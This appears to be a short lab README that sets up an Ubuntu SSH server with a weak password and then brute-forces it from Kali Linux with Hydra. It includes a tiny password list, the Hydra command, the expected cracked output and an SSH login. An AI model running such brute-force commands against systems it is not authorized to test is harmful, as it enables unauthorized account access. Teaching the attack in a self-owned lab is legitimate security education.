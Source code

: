 # Password Cracker Lab using Hydra

This lab demostrates a simple brute-force password cracking attempt using Hydra to attack an SSH server with weak credentials.

## Lab Setup

Attacker Machine: Kali Linux
Victim Machine: Ubuntu Server

## Step 1: Setup Ubuntu Server (Victim)

Commands on Ubuntu Server

sudo apt update
sudo apt install openssh-server -y
sudo adduser testuser
#set password to: password123
ip a

## Step 2: Setup Kali Linux (Attacker)

Commands on Kali Linux

sudo apt update 
sudo apt install hydra -y

# Create a password list
echo -e "123456\npassword\nadmin\npassword123\nletmein" > passwords.txt

## Step 3: Brute Force Attack with Hydra

Command on Kali Linux

hydra -l testuser -P passwords.txt ssh://172.20.10.9

Expected Output:

[22] [ssh] host: 172.20.10.9	login: testuser	passwword: password123

## Step 4: Verify Access

Command on Kali Linux

ssh testuser@172.20.10.9
# Enter cracked password

whoami
hostname

